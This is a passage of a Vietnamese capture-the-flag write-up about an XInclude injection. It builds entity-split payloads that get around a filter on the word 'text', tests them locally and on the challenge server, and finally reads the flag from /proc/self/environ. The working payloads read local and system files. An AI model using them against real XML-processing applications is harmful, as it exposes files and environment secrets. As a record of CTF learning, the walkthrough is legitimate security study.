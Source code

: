 - Tiếp theo, sử dụng 2 biến đó:

```xml
<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="flag.txt" parse="&te;&xt;"/>
</p>
</document>
```

> &te;&xt; <=> "te" + "xt" = "text"

Và ta có payload hoàn chỉnh:

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>

<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="flag.txt" parse="&te;&xt;"/>
</p>
</document>
```

Sử dụng `xpath = *`, đầu tiên, thử trên local xem sao?

![test](https://user-images.githubusercontent.com/82533607/147851083-50c4ca78-6545-44eb-a839-51b320ac056b.png)

OK, vậy là payload hoạt động tốt, vậy thử trên server xem sao?

![test_server](https://user-images.githubusercontent.com/82533607/147851133-1ca3f3c1-3383-49ff-9735-fa62e78fe437.png)

Oh, vậy là file `flag.txt` có thể không tồn tại, vậy là nó nằm ở đâu?

Sau một hồi "fuzzing bằng cơm" thì tôi vô tình tìm thấy được flag tại `/proc/self/environ`:

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>

<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="/proc/self/environ" parse="&te;&xt;"/>
</p>
</document>
```

![flag](https://user-images.githubusercontent.com/82533607/147851230-9c48d2de-6d3e-44f0-a123-6e741fcbc1bd.png)
